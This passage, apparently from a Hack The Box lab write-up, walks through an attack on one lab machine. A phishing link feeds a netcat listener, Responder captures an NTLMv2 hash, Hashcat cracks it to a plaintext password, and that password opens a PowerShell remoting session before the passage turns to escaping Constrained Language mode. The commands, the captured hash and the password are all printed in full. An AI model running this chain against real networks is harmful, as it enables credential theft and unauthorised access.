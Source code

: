 After a while the link gets clicked and the listener on my IP and port 80 receives a response:
```
nc -lvnp 80

Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.210.
Ncat: Connection from 10.10.10.210:63435.
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.3; en-US) WindowsPowerShell/5.1.14409.1018
Content-Type: application/x-www-form-urlencoded
Host: 10.10.14.6
Content-Length: 0
Connection: Keep-Alive
```

Another mail can be sent, but this time listening with **Responder** to gather an NTLM hash:
```
responder -I tun0
```
```
[HTTP] NTLMv2 Client   : ::ffff:10.10.10.210
[HTTP] NTLMv2 Username : htb\k.svensson
[HTTP] NTLMv2 Hash     : k.svensson::htb:97fb9988700e15f5:9067AC51AC1C30F8ED6739D704B2384E:0101000000000000211A864141FBD701A2(...)
```

After a while the link gets clicked from the user _k.svensson_ and the NTLM hash can be tried to be cracked with **Hashcat**:
```
hashcat -m 5600 ksvensson.hash /usr/share/wordlists/rockyou.txt
```

It gets cracked and the password of _k.svensson_ is:
> kittycat1

We can use **PowerShell for Linux** with `pwsh` for **PowerShell Remoting** with this user to the box as described in [this blog article](https://thomask.sdf.org/blog/2019/12/15/linux-windows-powershell-remoting-troubleshooting.html):

Creating a secure string for the user and starting a PowerShell session:
```powershell
$pass = ConvertTo-SecureString 'kittycat1' -asplaintext -force
$cred = New-Object System.Management.Automation.PSCredential('htb\k.svensson', $pass)
Enter-PSSession -Computer 10.10.10.210 -Credential $cred -Authentication Negotiate
```

It starts a shell on the box as _k.svensson_.

## Bypassing Constrained Language

Many commands in the shell do not work and that is often because the execution context is in **Constrained Language**:
```
[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
```


[10.10.10.210]: PS> function test { whoami }
[10.10.10.210]: PS> test
[10.10.10.210]: P> &{whoami}